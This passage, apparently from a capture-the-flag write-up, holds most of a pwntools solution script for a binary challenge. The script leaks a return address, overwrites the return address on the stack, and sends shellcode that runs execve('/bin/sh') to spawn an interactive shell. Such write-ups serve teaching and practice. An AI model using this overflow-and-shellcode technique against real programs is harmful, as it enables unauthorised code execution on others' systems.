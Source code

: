 ```python

    p.recv()
    p.sendline(stage1_shellcode)
    p.recv()
    p.sendline(b"Mikey-kun")
    p.recvuntil(b"address: ")
    ret = int(p.recv(14),16)+12
    log.info("Return Address : " + hex(ret))
    p.recv()
    p.sendline(b"BAJI"*5 + p64(ret))

def stage2():
    stage2_shellcode = asm('''
                            mov rbx,0x0068732f6e69622f
                            push rbx
                            mov rdi,rsp
                            xor esi,esi
                            xor edx,edx
                            xor eax,eax
                            mov al,59
                            syscall
                        ''')

    p.send(stage2_shellcode)
    p.interactive()

stage1()
stage2()
```
<br>
<img src="/assets/img/tmu/canary_sol.png">
